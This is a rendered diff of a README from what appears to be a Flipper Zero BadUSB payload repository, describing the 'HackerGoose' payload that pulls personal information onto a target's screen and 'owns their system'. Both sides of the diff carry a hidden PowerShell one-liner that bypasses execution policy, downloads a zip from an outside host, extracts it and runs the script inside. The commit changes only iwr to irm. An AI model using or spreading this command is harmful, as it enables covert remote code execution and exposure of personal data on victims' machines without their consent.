

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-HackerGoose/ReadMe.md, the part around the change. Drawn GitHub-style.

````diff
--- a/Payloads/Flip-HackerGoose/ReadMe.md
+++ b/Payloads/Flip-HackerGoose/ReadMe.md
@@ -42,7 +42,7 @@ Afterwards it will walk around your targets screen pulling out personal informat
 * 10 seconds later your goose is owning their system
 
 ```
-powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://jakoby.lol/1ae' -O "$D\hg.zip";Expand-Archive "$D\hg.zip" -Des $D -Force;. "$D\hg\main.ps1"
+powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";irm -Uri 'https://jakoby.lol/1ae' -O "$D\hg.zip";Expand-Archive "$D\hg.zip" -Des $D -Force;. "$D\hg\main.ps1"
 ```
 ### Exiting the Payload
 
````
